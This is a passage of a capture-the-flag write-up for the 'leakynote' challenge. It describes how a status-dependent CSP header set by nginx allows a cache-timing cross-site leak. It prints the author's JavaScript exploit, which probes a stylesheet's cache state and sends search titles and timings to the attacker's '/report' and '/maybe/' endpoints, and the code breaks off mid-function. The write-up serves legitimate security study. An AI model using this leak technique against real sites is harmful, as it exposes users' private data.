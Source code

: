 ### leakynote (3 solves)

This challenge was solved during the competition. In simple terms, it provides a free HTML injection and a strict CSP:

```
Content-Security-Policy "script-src 'none'; object-src 'none'; frame-ancestors 'none';";
```

There is also a search API that returns 200 for success and 404 for failure. The goal is to find a way to leak the flag using this API.

One of the key points of this challenge is that the CSP header is added by nginx, and nginx only adds the header for 2xx and 3xx responses. Therefore, if the search fails and returns 404, the page will not have a CSP.

So, I came up with a cache probing method.

We insert `<iframe src=search?q=a>` into the note. If nothing is found, there is no CSP, so the content of the iframe will be loaded, and the CSS on the page will also be loaded. On the other hand, because it violates the CSP, nothing will be loaded.

Therefore, we can use the "whether CSS is cached" point to determine if the search found anything.

At that time, the implemented code was as follows:

``` html
<script>
  const sleep = ms => new Promise(resolve => setTimeout(resolve, ms))
  async function clearCache() {
    let controller = new AbortController();
    let signal = controller.signal;
    fetch('https://leakynote.be.ax/assets/normalize.css',{
      mode: "no-cors",
      signal: signal,
      cache: 'reload'
    })
    await sleep(0)
    controller.abort();
    await sleep(100)
  }

  async function testNote(title, url) {
    // open note page
    var w = window.open(url)

    // wait 1s
    await sleep(1000)

    // clear cache and wait again
    await clearCache()
    await sleep(1500)

    // now the iframe should load, do cache probing
    const now = performance.now()
    await fetch('https://leakynote.be.ax/assets/normalize.css', {
      mode: 'no-cors',
      cache: 'force-cache'
    })
    const end = performance.now()
    fetch(`/report?title=${title}&ms=${end-now}`)
    if (end-now >= 4) {
      fetch('/maybe/' + title)
    }
    // cached(no result) => 2~3ms
    // no cache(found) => 4.8~5.8ms
    w.close()
```